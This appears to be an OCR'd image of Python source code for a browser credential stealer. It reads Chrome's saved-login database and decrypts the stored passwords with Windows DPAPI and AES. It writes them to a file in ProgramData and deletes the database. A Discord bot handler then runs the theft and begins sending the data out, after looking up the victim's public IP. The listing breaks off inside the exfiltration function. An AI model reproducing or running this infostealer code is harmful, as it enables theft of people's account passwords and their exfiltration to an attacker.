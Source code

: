 ```
    def pwsd(self, db_file):
        conn = sqlite3.connect(db_file)
        _sql = 'select signon_realm,username_value,password_value from logins'
        for row in conn.execute(_sql):
            host = row[0]
            if host.startswith('android'):
                continue
            name = row[1]
            value = self.cdecrypt(row[2])
            _info = '[==================]\nhostname => : %s\nlogin => : %s\nvalue => : %s\n[==================]\n\n' % (host, name, value)
            self.passwordList.append(_info)
        conn.close()
        os.remove(db_file)

    def cdecrypt(self, encrypted_txt):
        if sys.platform == 'win32':
            try:
                if encrypted_txt[:4] == b'\x01\x00\x00\x00':
                    decrypted_txt = dpapi(encrypted_txt)
                    return decrypted_txt.decode()
                elif encrypted_txt[:3] == b'v10':
                    decrypted_txt = decryptions(encrypted_txt)
                    return decrypted_txt[:-16].decode()
            except WindowsError:
                return None
        else:
            pass

    def saved(self):
        try:
            with open(r'C:\ProgramData\passwords.txt', 'w', encoding='utf-8') as f:
                f.writelines(self.passwordList)
        except WindowsError:
            return None

@bot.event
async def on_ready():
    print(f'Logged in as {bot.user}')
    
    channel = bot.get_channel(CHANNEL_ID)
    if not channel:
        print(f"Could not find channel with ID: {CHANNEL_ID}")
        return
    
    main = chrome()
    try:
        main.chromedb()
    except Exception as e:
        print(f"Error getting Chrome passwords: {e}")
    main.saved()
    
    await exfiltrate_data(channel)
    
    await bot.close()

async def exfiltrate_data(channel):
    try:
        hostname = requests.get("https://ipinfo.io/ip").text
    except:
        hostname = "Unknown"
    
    local = os.getenv('LOCALAPPDATA')
```